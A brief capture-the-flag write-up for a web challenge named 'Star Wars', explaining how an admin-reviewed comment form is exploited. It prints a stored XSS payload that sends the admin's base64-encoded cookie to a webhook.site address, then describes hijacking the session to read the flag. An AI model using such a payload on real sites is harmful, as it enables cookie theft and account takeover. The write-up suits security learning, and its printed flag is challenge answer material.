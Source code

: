 # Star Wars
> If you love Star Wars as much as I do you need to check out this blog!

## About the Challenge
We got another website to pentest, and there are some functionality that we can test such as register, login, giving a comment in post.

![preview](images/preview.png)
![preview-2](images/preview-2.png)

## How to Solve?
When I attempt to post a comment, my comment is reviewed by the admin first. So, I assume that this website is vulnerable to XSS, and we need to steal the admin's cookie. To steal the admin cookie, im using this simple XSS payload

```
<script>var i=new Image(); i.src="https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie="+btoa(document.cookie);</script>
```

![review](images/review.png)

Submit the payload and then wait until you got a pingback. And voilà, you got an admin cookie

![webhook](images/webhook.png)

Decode the cookie using `base64` and then replace your cookie with the admin cookie. After that, go to `/admin` endpoint to obtain the flag

![flag](images/flag.png)

```
flag{a538c88890d45a382e44dfd00296a99b}
```
